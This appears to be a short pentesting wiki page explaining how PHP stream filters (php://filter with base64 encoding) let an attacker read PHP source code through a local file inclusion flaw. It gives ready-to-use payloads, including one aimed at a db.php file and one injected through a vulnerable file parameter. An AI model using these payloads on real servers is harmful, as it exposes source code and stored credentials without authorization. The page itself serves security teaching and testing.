 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PHP - Bypass using filters

PHP filters can sometimes be exploited to read the source code of a PHP file if the server is misconfigured and allows [Local File Inclusion](local-file-inclusion.md) or direct access to PHP stream wrappers. This occurs when the _allow\_url\_include_ and _allow\_url\_fopen_ parameters are enabled on the _php.ini_ file.

LFI on PHP files usually won’t display the source code, because when included, the PHP interpreter executes the file instead of showing its contents, but using the PHP filters we can have access to the source code instead of executing the file.

Here we found how this can be exploited:

* Use payload to retrieve the source code of a PHP file

{% code overflow="wrap" lineNumbers="true" %}
```bash
php://filter/convert.base64-encode/resource=$pathToPHPfile
php://filter/convert.base64-encode/resource=db.php #Example with a default php db
```
{% endcode %}

***

* If direct file access via _php://filter_ is blocked, we can use it indirectly in a confirmed LFI point

{% code overflow="wrap" lineNumbers="true" %}
```bash
vulnerable.php?file=php://filter/convert.base64-encode/resource=$pathToPHPfile
```
{% endcode %}
